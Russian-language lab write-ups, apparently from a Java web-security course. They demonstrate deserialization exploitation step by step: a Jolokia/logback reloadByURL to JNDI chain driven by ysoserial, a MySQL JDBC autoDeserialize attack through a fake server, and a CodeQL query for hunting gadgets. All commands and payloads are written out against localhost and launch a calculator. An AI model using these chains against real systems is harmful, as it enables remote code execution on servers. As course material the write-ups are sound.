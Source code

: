## 5.6.7. Exercise – Find the Gadget

### Принцип действия

Spring-приложения могут использовать "актуаторы", которые отдает информацию о рантайме приложения через определенные эндпоинты.
Если среди зависимостей приложения есть `jolokia`, то она добавляет актуатор по пути `http://localhost:8090/jolokia/exec/...`, вызов которого
позволяет выполнять некоторые действия.

Среди этих действий есть возможность стриггерить обновления logback-конфига, используя метод `reloadByURL`. Запрос выглядит так:

```
http://localhost:8080/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/SERVER:PORT!/logback.xml
```

При перезагрузке конфига будет выполнен запрос на SERVER:PORT. Если этот адрес указывает на контролируемый злоумышлеником сервер (в нашем случая это будет просто http-сервер, отдающий определенный logback.xml), то в новом конфиге может быть указано

```
<insertFromJNDI env-entry-name="rmi://localhost:1099/jndi" as="appName"/>
```

что приведел к попытке зарезолвить значение переменной через JNDI/RMI. В качестве JNDI-сервера используем ysoserial, запущенный в режиме `ysoserial.exploit.JRMPListener`.

### Реализация

0. Модифицируем `logback.xml`:

   ```xml
   <configuration>
    <appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
        <withJansi>true</withJansi>
        <encoder>
            <pattern>[%thread] %highlight(%-5level) %cyan(%logger{15}) - %msg %n</pattern>
        </encoder>
    </appender>
    <root level="info">
        <appender-ref ref="STDOUT" />
    </root>
    <jmxConfigurator/>
    <insertFromJNDI env-entry-name="rmi://localhost:1099/jndi" as="appName"/>
   </configuration>
   ```

1. Запустим HTTP-сервер, который будет отдавать этот logback.xml:

   ```shell
   (cd /home/student/FSWA/module-2/build-standalone/src/main/resources && python3 -m http.server 9090)
   ```

2. Запустим spring-приложение с jolokia в CLASS_PATH:

   ```shell
   (cd /home/student/FSWA/module-2/build-standalone && ./run -new)
   ```

3. Запустим ysoserial в режиме JRMPListener (порт 1099). Пэйлоад -- калькулятор

   ```shell
   (cd /home/student/FSWA/module-2/build-standalone && java -cp ../../tools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 "gnome-calculator")
   ```

4. Выполним HTTP-запрос, который обновляет logback-конфиг и запускает весь процесс:

   ```shell
   curl 'http://localhost:8080/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/localhost:9090!/logback.xml'
   ```

Результат:

![result](./assets/4/1.jpg)


## 5.6.10. Exercise - MySQL Trickery

### Принцип действия

В jdbc-библиотке среди прочих параметров подключения можно указать `autoDeserialize`, который позволит клиенту автоматически десериализовавать данные, которые отправляет MySQL-сервер. Однако непосредственно сам клиент не вызывает `readObject`, это делает конкретный "queryInterceptor" (миддльварь), которая обрабатывает запросы от ответы. В миддлваре ServerStatusDiffInterceptor (https://github.com/spullara/mysql-connector-java/blob/master/src/main/java/com/mysql/jdbc/interceptors/ServerStatusDiffInterceptor.java) вызывается метод `readObject` (https://github.com/spullara/mysql-connector-java/blob/cc5922f6712c491d0cc46e846ae0dc674c9a5844/src/main/java/com/mysql/jdbc/Util.java#L496), что и приводит к уязвимости.

В качестве MySQL-сервера используется мок-сервер, который будет отдавать зараженный пейлоад (сгенерированный через ysoserial). В мануале предлагается использовать python3-сервер отсюда: https://landgrey.me/blog/11/, но вроде как на новом питоне он не работает, я использовать https://github.com/fnmsd/MySQL_Fake_Server.git.

Т.к. в CLASS_PATH есть `common-collections` то будем использовать пэйлоад типа `CommonsCollections5` (5 определяем методом перебора).

### Реализация

1. Используем https://github.com/fnmsd/MySQL_Fake_Server.git в качестве MySQL-сервера.
   Конфиг:

   ```yml
    {
        "config":{
            "ysoserialPath":"/home/student/FSWA/tools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar",
            "javaBinPath":"java",
            "fileOutputDir":"./fileOutput/",
            "displayFileContentOnScreen":true,
            "saveToFile":true
        },
        "fileread":{
        },
        "yso":{
            "yso_Jdk7u21_calc":["CommonsCollections5","gnome-calculator"]
        }
    }
   ```
   подключения через юзера yso_Jdk7u21_calc будут приводит к отдаче ysoserial-пэйлоада


   запуск: `python3 server.py`

2. Запустим spring (mvn clean install && ./run -new -debug). В параметрах JDBC-соединения указываем
   1) queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
   2) нужного юзера
   3) нужный хост питон-сервера
   4) autoDeserialize=tru


   HelloController:

   ```
    package hello;

    import com.fasterxml.jackson.databind.DeserializationConfig;
    import com.fasterxml.jackson.databind.ObjectMapper;
    import org.springframework.web.bind.annotation.*;
    import org.springframework.web.multipart.MultipartFile;

    import java.sql.*;

    @RestController
    public class HelloController {

        @RequestMapping("/")
        public String index() throws java.lang.ClassNotFoundException, java.sql.SQLException {
            String driver = "com.mysql.cj.jdbc.Driver";
            String user = "yso_Jdk7u21_calc";
            String password = "ubuntu";
            //String url = "jdbc:mysql://0.0.0.0:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true";
            String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc";
            Class.forName(driver);
            Connection conn = DriverManager.getConnection(url, user, password);

            return url;
        }
    }
   ```

3. Сделаем запрос: curl 'http://localhost:8080'

Результат:

![result](./assets/4/2.jpg)


## 5.6.13. Exercise - Find another Gadget

Предлагается найти путем обзора кода (https://github.com/wso2/wso2-axis2/) гаджет, аналогичный разобранному в мануале. В https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html описывается,
что на этой версии библиотеки гаджет возможет из-за некорректного `SafeObjectInputStream`, который вызывает `inObject`. Можно попытаться найти вызовы `readExternal` (на классах, реализующих `Externalizable`), которые вызывают `SafeObjectInputStream#readExternal` и при этом присутсвуют вызовы типа (SomeClass) readExternal(). В частности, этот запрос находит `MetaDataEntry`, указанный в статье, и еще несколько аналогичных классов


```java
import semmle.code.java.dataflow.DataFlow

class CustomSink extends DataFlow::ExprNode {
  CustomSink() {
    exists(Method m | m = this.asExpr().(MethodAccess).getMethod() |
      m.hasName("readObject") and
      m.getDeclaringType().hasQualifiedName("org.apache.axis2.context.externalize", "SafeObjectInputStream")
    )
  }
}

class CustomSource extends DataFlow::ExprNode {
  CustomSource() {
    exists(Method m | m.calls(this.asExpr().(MethodAccess).getMethod()) |
      m.hasName("readExternal")
    )
  }
}

module MyFlowConfiguration implements DataFlow::ConfigSig {
  predicate isSource(DataFlow::Node source) {
    source instanceof CustomSource
  }

  predicate isSink(DataFlow::Node sink) {
    sink instanceof CustomSink
  }
}

import semmle.code.java.Conversions

module MyFlow = DataFlow::Global<MyFlowConfiguration>;

from DataFlow::Node source, DataFlow::Node sink, Interface iface
where MyFlow::flow(source, sink)
and iface.hasQualifiedName("java.io", "Externalizable")
and not sink.asExpr().getFile().getRelativePath().matches("%test%")
and exists(
  Class c | c.fromSource() and c.getCompilationUnit() = source.asExpr().getCompilationUnit() and c.hasSupertype+(iface) and (exists(ConversionSite cs | cs.isImplicit() | cs.getType().toString().matches("MetaDataEntry")))
)
select source, sink, "ok", source.asExpr().getCompilationUnit()

```
